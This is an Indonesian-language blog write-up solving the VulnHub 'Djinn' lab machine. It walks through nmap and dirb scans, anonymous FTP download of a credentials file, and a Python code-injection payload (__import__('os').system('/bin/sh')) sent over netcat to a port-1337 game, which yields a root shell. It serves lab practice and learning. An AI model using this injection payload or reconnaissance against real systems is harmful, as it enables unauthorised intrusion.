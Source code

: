 ```yaml
---
title: '[VulnHub] Djinn WriteUp'
date: 2019-12-21T20:09+07:00
categories: blog
tags:
  - vulnhub
  - writeup
  - code injection
  - python
---
```


## Information Gathering
### nmap

`nmap -sC -sV -p- djinn.vh -v -oN initial.nmap`
```
PORT     STATE    SERVICE VERSION
21/tcp   open     ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 0        0              11 Oct 20 23:54 creds.txt
| -rw-r--r--    1 0        0             128 Oct 21 00:23 game.txt
|_-rw-r--r--    1 0        0             113 Oct 21 00:23 message.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.43.192
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp   filtered ssh
1337/tcp open     waste?
| fingerprint-strings: 
|   NULL: 
|     ____ _____ _ 
|     ___| __ _ _ __ ___ ___ |_ _(_)_ __ ___ ___ 
|     \x20/ _ \x20 | | | | '_ ` _ \x20/ _ \n| |_| | (_| | | | | | | __/ | | | | | | | | | __/
|     ____|__,_|_| |_| |_|___| |_| |_|_| |_| |_|___|
|     Let's see how good you are with simple maths
|     Answer my questions 1000 times and I'll give you your gift.
|     '/', 1)
|   RPCCheck: 
|     ____ _____ _ 
|     ___| __ _ _ __ ___ ___ |_ _(_)_ __ ___ ___ 
|     \x20/ _ \x20 | | | | '_ ` _ \x20/ _ \n| |_| | (_| | | | | | | __/ | | | | | | | | | __/
|     ____|__,_|_| |_| |_|___| |_| |_|_| |_| |_|___|
|     Let's see how good you are with simple maths
|     Answer my questions 1000 times and I'll give you your gift.
|_    '-', 2)
7331/tcp open     http    Werkzeug httpd 0.16.0 (Python 2.7.15+)
| http-methods: 
|_  Supported Methods: HEAD OPTIONS GET
|_http-server-header: Werkzeug/0.16.0 Python/2.7.15+
|_http-title: Lost in space
```
Ada `ftp` di port 21, `ssh` di port 22 tapi filtered, `http` di port `7331`, dan netcat(?) di port `1337`.

### ftp
Login ke `ftp` dan download file `creds.txt`, `game.txt`, `message.txt`.  

*games.txt*
```
oh and I forgot to tell you I've setup a game for you on port 1337. See if you can reach to the 
final level and get the prize.
```

*creds.txt*
```
nitu:81299
```

*message.txt*
```
@nitish81299 I am going on holidays for few days, please take care of all the work. 
And don't mess up anything.
```

### dirb
`dirb http://djinn.vh/ /usr/share/wordlists/big.txt`

```
GENERATED WORDS: 20458                                                         

---- Scanning URL: http://djinn.vh:7331/ ----
+ http://djinn.vh:7331/genie (CODE:200|SIZE:1676)                                                                                          
                                                                                                                                           
(!) FATAL: Too many errors connecting to host
    (Possible cause: EMPTY REPLY FROM SERVER)
                                                                               
-----------------
END_TIME: Sat Dec 21 20:14:37 2019
DOWNLOADED: 16063 - FOUND: 1
```
Berhubung `dirb`nya ternyata error cuma nemu satu dir dan saya terlalu males buat `dirb` atau enum 
ulang. Saya asumsikan attack vectornya bukan dari web.  

*index.html*
![index](/assets/images/Djinn/djinn.png){: img_content }

*/genie*
![genie](/assets/images/Djinn/genie.png){: img_content }


### 1337
`nc djinn.vh 1337`
```
 / ___| __ _ _ __ ___   ___  |_   _(_)_ __ ___   ___ 
| |  _ / _` | '_ ` _ \ / _ \   | | | | '_ ` _ \ / _ \
| |_| | (_| | | | | | |  __/   | | | | | | | | |  __/
 \____|\__,_|_| |_| |_|\___|   |_| |_|_| |_| |_|\___|
                                                     

Let's see how good you are with simple maths
Answer my questions 1000 times and I'll give you your gift.
(1, '-', 2)
>
```
Karena dari point `http-server-header` dari hasil scan `nmap` menggunakan backend python, mungkin flask(?). Saya iseng untuk melakukan code injection `__import__('os').system('/bin/sh')` ke port ini... dan ternyata work dan kita langsung mendapat user `root` :haha:
![root](/assets/images/Djinn/root.png){: img_content }  

Tinggal cari flag rootnya lalu selesai :rofl:
![root](/assets/images/Djinn/rootflag.png){: img_content }

Sebenernya attack vector ini murni hoki karena gak ada indikator bahwa app yang berjalan di port 1337 tadi menggunakan python. Seharusnya code injection dilakukan di web server di `http://djinn.vh/wish` seperti yang dilakukan di [artikel ini](https://www.hackingarticles.in/djinn1-vulnhub-walkthrough/). 

Setelah ditelusuri source code aplikasi di port 1337 tersebut ada di `/opt/1337/app.py`. Code injection tersebut bisa berjalan karena tidak adanya filtering/sanitization input dari user dan penggunaan versi python yang outdated (v2.7.15), dan ditambah app tersebut dijalankan oleh user `root`.

Sekian writeup kali ini, see ya!



